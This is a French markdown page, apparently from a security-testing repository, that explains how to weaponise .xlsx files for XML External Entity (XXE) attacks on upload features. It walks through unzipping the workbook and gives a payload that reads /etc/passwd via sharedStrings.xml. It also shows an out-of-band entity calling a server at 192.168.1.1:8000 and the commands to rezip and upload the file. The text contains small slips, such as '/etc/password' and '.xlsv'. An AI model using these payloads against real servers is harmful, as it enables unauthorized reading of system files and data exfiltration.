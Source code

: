 # Office Open XML Spreadsheet

<img src="logo.png" title="" alt="" height="150">

**Facteur de risque** : XXE

**Extension** : `.xlsx`, `xlsm`

**Type MIME** : `application/vnd.openxmlformats-officedocument.spreadsheetml.sheet`

**Description** : 

**Office Open XML** (OOXML) est un format de fichier **zippé** et basé sur le **XML**, pour représenter des feuilles de calcul, des graphiques, des présentations et des documents de traitement de texte. 

`.xlsx` est une extension de nom de fichier pour tableur au format Office Open XML. `.xlsm` permet en plus l'utilisation des **macros**.

Un fichier `.xlsx` peut être désarchiver comme un fichier `.zip`. Il contient notamment plusieurs fichiers `.xml`. Microsoft conseille d'analyser dans l'ordre :

- le fichier `_rels/.rels`, qui contient les relations en reliant un ID à chaque fichier

- le fichier `[Content_Types].xml` qui contient une liste de type MIME

- le fichier `xl/workbook.xml`, qui donne une vue d'ensemble du contenu du classeur (nom des feuilles, etc.). La plupart du temps, les applications web analysent ce fichier en premier,

- les fichiers `xl/worksheets/sheet1.xml`, `xl/worksheets/sheet2.xml`... correspondent aux feuilles, avec les données numériques notamment,

- et le fichier `xl/sharedStrings.xml` contient les chaînes de caractères des différentes feuilles.

Un fichier Excel ou un fichier Google Sheets en `.xlsx` correspond donc en réalité à un fichier archive `.zip` contenant plusieurs fichiers `.xml`. Des payloads pour XXE peuvent être donc injectés dans les fichiers.

## Sommaire

- XML External Entity (XML)

## XML External Entity (XML)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur web doit analyser et traiter les données du fichier.

### Exploitation

Créez un nouveau fichier Excel ou Google Sheets vide, puis enregistrez le fichier au format `.xlsx` (**xxe.xlsx**)

1. Déarchivez le fichier `.xlsx` dans un répertoire (**FichierMalveillant**) :
   
   ```shell
   unzip xxe.xlsx -d FichierMalveillant
   ```

2. Le payload XXE doit être ajouté dans le fichier `.xml` que l'application traitera (dans les fichiers `xl/workbook.xml`, `xl/worksheets/sheet1.xml`, `xl/sharedStrings.xml` notamment) :
   
   ```xml
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE foo [ <!ELEMENT t ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="4" uniqueCount="4">
   <si><t>ABCD</t></si>
   <si><t>&xxe;</t></si>
   <si><t>FGHI</t></si>
   <si><t>IJKL</t></si>
   </sst>
   ```
   
   Ici, le payload a été placé dans le fichier `xl/sharedStrings.xml`, pour récupérer le contenu de `/etc/password`.
   
   ```xml
   <!DOCTYPE go [
   <!ENTITY % go2 SYSTEM "http://192.168.1.1:8000/XXE">
   %go2;
   ```
   
   Ici, si le parser de l'application est vulnérable au XXE, il va se connecter via HTTP au serveur web 192.168.1.1 sur le port 8000, en demandant le fichier `XXE`.

3. Archivez à nouveau le fichier `.xlsv`, puis téléversez-le. (Il faut savoir que le fichier est techniquement correct d'après les spécifications, mais Office n'ouvrira pas le fichier). 
   
   ```shell
   zip -r xxe.xlsx FichierMalveillant/*
   ```
   
   ou
   
   ```shell
   zip -u xxe.xlsx xl/sharedStrings.xml
   ```

## References

- Exploiting XXE Vulnerabilities In File Parsing Functionality - YouTube : https://www.youtube.com/watch?v=LZUlw8hHp44
- Black Hat | WebCast: Exploiting XML Entity Vulnerabilities in File Parsing Functionality : https://www.blackhat.com/html/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.html
- GitHub - BuffaloWill/oxml_xxe: A tool for embedding XXE/XML exploits into different filetypes : https://github.com/BuffaloWill/oxml_xxe
- Exploiting XXE with Excel : https://www.4armed.com/blog/exploiting-xxe-with-excel/
- XXE injection is possible via specially crafted excel file : https://github.com/jmcnamara/excel-reader-xlsx/issues/10
- XXE at Bol.com : https://medium.com/@jonathanbouman/xxe-at-bol-com-7d331186de54]
- XXE ALL THE THINGS!!! (including Apple iOS's Office Viewer) | INTEGRITY Labs : https://labs.integrity.pt/articles/xxe-all-the-things-including-apple-ioss-office-viewer/index.html

## Todo

- AJouter un payload dans `xl/workbook.xml` et `xl/worksheets/sheet1.xml` (voir XXE at Bol.com)

- Ajouter un payload dans le fichier `[Content_Types].xml`

- an Excel file with a dangerous formula

- Ajouter pour les formats SVG, Libre Office ou Open Office (`word/document.xml` -> `content.xml`), et SVG à l'internieur de LIbre ou Open
